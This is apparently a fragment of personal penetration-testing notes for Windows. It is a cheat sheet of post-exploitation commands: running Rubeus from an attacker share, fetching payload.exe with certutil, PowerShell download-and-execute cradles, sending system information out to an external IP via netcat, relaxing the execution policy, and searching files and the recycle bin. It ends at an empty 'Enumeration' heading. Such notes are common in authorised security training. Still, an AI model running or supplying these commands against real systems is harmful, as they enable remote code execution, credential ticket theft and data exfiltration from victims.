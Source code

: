 ```powershell
 & \\192.168.119.169\tools\Rubeus.exe triage


```


1. `certutil -urlcache -split -f http://source.ip/payload.exe payload.exe`
2. Download the file in PS: 
`Invoke-WebRequest -Uri "url" -OutFile "dest"`
`curl http://xxx/file.xxx -o file.xxx`
3. Download and execute in PS: 
`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL')"`

or just `IEX(New-Object Net.WebClient).DownloadString('URL')`

use netcat

`cmd.exe /C "nc64.exe 192.168.219.137 443 < systeminfo.txt"`

* Powershell
```
#run receiver on listener

nc -lvnp 443 > output.xxx

#send file
Get-Content file.xxx | .\nc.exe IP PORT

#bypass execution policy  if got admin
Set-ExecutionPolicy Unrestricted
```



## Find Stuff

* cmd: `dir /s /b c:\filename` find filename in c: drive recursively
* ps: `Get-Childitem –Path C:\ -Include *filetolookfor* -Exclude *.JPG,*.MP3,*.TMP -File -Recurse -ErrorAction SilentlyContinue`

## Recycle Bin // TBD

* access recycle bin items

```
$shell = New-Object -com shell.application
$rb = $shell.Namespace(10)
$rb.Items()
```

# Enumeration

## local enumeration
